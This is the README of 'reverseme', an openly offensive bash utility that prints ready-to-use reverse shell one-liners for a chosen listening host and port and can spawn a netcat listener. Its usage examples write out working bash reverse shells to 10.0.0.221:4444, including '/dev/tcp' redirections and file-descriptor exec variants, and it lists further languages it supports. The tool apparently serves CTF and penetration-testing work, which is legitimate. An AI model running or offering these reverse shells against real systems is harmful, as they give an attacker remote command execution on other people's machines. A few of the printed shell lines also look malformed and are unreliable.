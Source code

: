 # ReverseMe
Easily display reverse shells in different languages with the listening host and listening port already built into the syntax.

## Installation
By default, *reverseme* is set to install in your home directory. \
Using your favorite text editor, change the username for the USER variable in *install.sh*. \
Also change the directory path for the DIRECTORY variable in *install.sh*. **Use absolute path names. It just makes it easier.** \
*reverseme* uses \.bash_aliases to add the alais for *reverseme*. \
*reversme* will source the bash_completion file automatically to your \.bashrc file.

##### What if I want to use something different than .bashrc or .bash_aliases?
You will need to use your favorite text editor and edit the variables ALIAS_FILE and SOURCE_FILE in *install.sh*. \
**Otherwise, leave them alone.**

##### What if I move *reverseme* after I run the install.sh script?
If at anytime you move *reverseme* after running install.sh, you will need to edit your \.bashrc, \.bash_aliases, and the absolute sourced path of *shells.sh* in *main.sh* file, using your favorite text editor.

#### To install:
```
git clone https://github.com/DFC302/reverseme.git
cd reverseme/
sudo bash install.sh
cd
source ~/.bashrc
```
**Right now, *reverseme's* *install.sh* script is set to work on Debian\Ubuntu related distbutions.**

## Usage
**Important Note:** \
The reverse shells are stored in a separate file wrapped in functions. Because of this, all other options must be called FIRST before you call the language option of your choice. Below are some simple example usages.

### Basic usage:
```
reverseme --lport 4444 --lhost 10.0.0.221 --langs bash
```

#### Result:
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done
```

### Save shell to clipboard"
```
reverseme --lhost 10.0.0.221 --lport 4444 --save --langs bash
```

**If there is more than one reverse shell available, *reverseme* will ask you to select which one. Whatever option you choose will automatically be saved to your clipboard.**.

#### Result
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done

Selection [1-4]: 2
```

### List supported languages
```
reverseme --list
```
#### Result:
```
Supported languages:
	bash
	awk
	perl
	python
	php
	ruby
	netcat
	telnet
	socat
	java
```
### Spawn listener
```
reverseme --lport 4444 --listener gnome
```
**--OR--**
```
reverseme --lhost 10.0.0.221 --lport 4444 [optional: --save] --listener gnome --langs bash
```
This will spawn a new terminal using netcat to listen on the given lport.

### Spawn version/email/title information
```
reverseme --version
```
#### Result:
```
	________                                    ______  ___     
	___  __ \_______   ____________________________   |/  /____ 
	__  /_/ /  _ \_ | / /  _ \_  ___/_  ___/  _ \_  /|_/ /_  _ \
	_  _, _//  __/_ |/ //  __/  /   _(__  )/  __/  /  / / /  __/
	/_/ |_| \___/_____/ \___//_/    /____/ \___//_/  /_/  \___/                                                               

	
		Written by: Matthew Greer
		Github: https://github.com/DFC302
		HTB Profile: https://www.hackthebox.eu/profile/17842
		Email: pydev302@gmail.com
		Version: 2.0.0


```


### Help Menu
```
reverseme - A quick reference script that can easily display reverse shells for different languages.
Version: 2.0.0

Usage: reverseme --[options]
Example usage: reverseme --lhost 10.0.0.2 --lport 4444 --langs perl linux
Warning: lport and lhost both needed FIRST to display reverse shells correctly!
	WRONG: reverseme --langs bash --lhost 10.0.0.2 --lport 4444
	CORRECT: reverseme --lhost 10.0.0.2 || lport 4444 --langs bash

--help			Displays this help menu and exits.
--version		Displays version and title information.
--list			List avaialble languages supported.
--save			Save reverse shell to clipboard.
--lport=[port]		Provide a listening port.
--lhost=[IP]		Provide a listening host.

--listener=[ENV]	Spawn a listener on a specfic lport.
				gnome
				xfce
				Example: --lport 4444 --listener gnome

--langs=[lang]	Language reverse shell is written in.
			bash
			awk
			perl [OPTIONAL] linux || windows
			python [PROTOCOL] tcp || udp || stcp
			php
			ruby [OPTIONAL] linux || windows
			netcat
			telnet
			socat
			java

```

### Common errors?
#### When I use the --save flag, I get an error: *error cant open display*.
This usually happens with systems without a GUI. You can check out the following [help](https://askubuntu.com/questions/305654/xclip-on-headless-server) to see if you can find a solution.

#### *reverseme* tells me that I need the lhost and/or lport first, when I use the --langs flag before those flags.
This is because each language is stored in a function in another bash file. Essentially, main.sh is calling the function that holds the reverse shells of the language you have chosen. If you call that function first, the rest of the flags are not taken into account as variables. Use the *--langs [lang]* as the last part of your syntax.

#### I am getting a *permission denied* when running *reverseme*.
I have seen this before on some of the test systems I have tested *reverseme* on. The easiest solution is to do this:
```
chmod -R 755 /reverseme
chown -R [user] /reverseme
chgrp -R [user] /reverseme
```
#### I ran the *install.sh* script, but I still cant use *reverseme* as an alias?
Using your favorite editor, open the \.bash_aliases file in your home directory. Make sure that the path to *reverseme's* *main.sh* file is correct.

#### *reverseme* tells me that it has no file named *shells.sh*
Using your favorite editor, open the *main.sh* file in *reverseme* directory. Edit line 4, where it is sourcing the *shells.sh* file and make sure the path is correct.

**Anything else. Email me.**


### Contributing?
I would be interested in more reverse shells that I can add to *reverseme* \
Or if you find this useful or it is helped you in anyway, you can always say thanks by buying me a coffee.

<a href="https://www.buymeacoffee.com/dfc302" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
